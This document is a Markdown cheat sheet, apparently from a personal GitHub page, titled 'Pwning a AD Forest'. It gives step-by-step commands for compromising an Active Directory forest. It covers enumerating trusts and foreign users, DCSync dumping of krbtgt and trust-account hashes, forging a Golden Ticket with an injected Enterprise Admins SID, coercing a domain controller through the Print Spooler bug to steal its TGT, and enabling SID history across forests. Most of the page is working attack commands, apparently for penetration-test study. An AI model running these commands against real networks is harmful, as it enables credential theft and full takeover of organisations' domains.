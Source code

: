 ```yaml
---
layout: page
title: "# Pwning a AD Forest"
permalink: /ad_cheatsheets/pwning_ad_forest
---
```


# Pwning a AD Forest

## Forest Enumeration

```powershell
#Check for trusted domains with NLTest
nltest /trusted_domains

#Check for trusted domains with PowerShell & .NET
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()

#Check for trusted domains with PowerView
Get-DomainTrust -API

#Check for trusted domains with LDAP
Get-DomainTrust
```

## Enumerate users and objects in different domains of the forest

```powershell
#PowerView (using the -Domain flag)
Get-DomainUser -Domain corp1.com
```

## Get NTLM Hash of trusted domain (query domain computeraccount) with MimiKatz

```powershell
lsadump::dcsync /domain:prod.corp1.com /user:corp1$
```

## Create Golden Ticket for Enterprise Admins to be admin in every domain with MimiKatz (adding extra SID)

```powershell
#Get NTLM hash of current domain KRBTGT account:
lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt

#We need the domain SID's for the current domain and the target domain. We use Get-DomainSID from PowerView:
Get-DomainSID -Domain prod.corp1.com
Get-DomainSid -Domain corp1.com

#We need the RID of the Enterprise Admins group. This is a static value of 519 and we will append this to the SID.

#Craft the Golden Ticket that will grant us Enterprise Admin membership in corp1.com. /sid is current domain and /sids is target domain + RID of 519:
kerberos::golden /user:%USERNAME% /domain:prod.corp1.com /sid:S-1-5-21-3776646582-
2086779273-4091361643 /krbtgt:4b6af2bf64714682eeef64f516a08949 /sids:S-1-5-21-
1095350385-1831131555-2412080359-519 /ptt

#Access domain controller in new domain with PSExec:
c:\tools\SysinternalsSuite\PsExec.exe \\rdc01 cmd

```

## Use Print Spooler bug to own forest

*This technique does not require Domain Admin privileges. However, if we have Domain Admin
privileges and no servers with unconstrained delegation exist in our current domain, we can
create one ourselves by modifying the configuration of one of the servers.

```powershell
#Let's try to access the print spooler in another domain (this is a requirement):
ls \\rdc01\pipe\spoolss

#From and administrative prompt use Rubeus to monitor for new tickets from the root domain controller machine account
Rubeus.exe monitor /interval:5 /filteruser:RDC01$

#Launch the SpoolSample attack to the remote domain to force the print change notification from rdc01:
.\SpoolSample.exe rdc01.corp1.com appsrv01.prod.corp1.com

#A new forwardable TGT is received in Rubeus. We can use Rubeus to inject it into memory:
Rubeus.exe ptt /ticket:%TICKETNAME%

#Perform replication with MimiKatz to get the NTLM hash of the remote administrator:
lsadump::dcsync /domain:corp1.com /user:corp1\administrator

```

## Get Forests Trusts between multiple forests

```powershell
#Powershell:
([System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()).GetAllTrustRel
ationships()

#PowerView (if selective authentication is not enabled):
Get-DomainTrust -Domain corp1.com

#PowerView - Get ForestTrusts
Get-ForestTrust

#Powerview - Get all mappings
Get-DomainTrustMapping

```

## Forest User Enumeration

### Get users in another forest

```powershell
#Powershell:
Get-DomainUser -Domain corp2.com
```

### Get Users from current domain that are a groupmember in another forest

```powershell
#Powerview
Get-DomainForeignGroupMember -Domain corp2.com
```

### Get members of a specific group in another trusted domain

```powershell
#Enumerater members of the remote forest built-in Administrator's group (PowerView):
Get-DomainGroupMember -Identity "Administrators" -Domain corp2.com
```

## Get the SID of a domain:

```powershell
Get-DomainSID -domain corp1.com
```

## Use NetDom to relax SID History between [Corp1.com](http://corp1.com) and [Corp2.com](http://corp2.com) (other forest)

*Note - SID filtering will still be active. Microsoft dictated that any SID with a RID less than 1000 will always be filtered regardless of the SID history setting. And if the custom group we attempt to abuse is a member a global security group like Domain Admins or Enterprise Admins, that access will also be filtered. Only group membership in domain local security groups is not filtered. The built-in Administrators group is a domain local group.

```powershell
#Perform this as a Corp1.com administrator
netdom trust %Source-Domain% /d:%Target-Domain% /enablesidhistory:yes

#Example
netdom trust corp1.com /d:corp2.com /enablesidhistory:yes

#Check if setting is changed (look for "TREAT_AS_EXTERNAL" on target domain)
Get-DomainTrust -Domain corp2.com
```

*RID less than 1000 will always be filtered regardless of the SID history setting. A non-default group will always have a RID equal to or higher than 1000. If we can find a custom group whose membership will allow us to compromise a user or computer, we can use that as an entry point. Another important thing to note is that when the custom group we attempt to abuse is a
member a global security group like Domain Admins or Enterprise Admins, that access will
also be filtered. Only group membership in domain local security groups is not filtered.

So enumerate for instance the domain local "Administrators"  group (*Get-DomainGroupMember -Identity "Administrators" -Domain [corp2.com](http://corp2.com/)*) on the target domain to check for custom groups that are member.
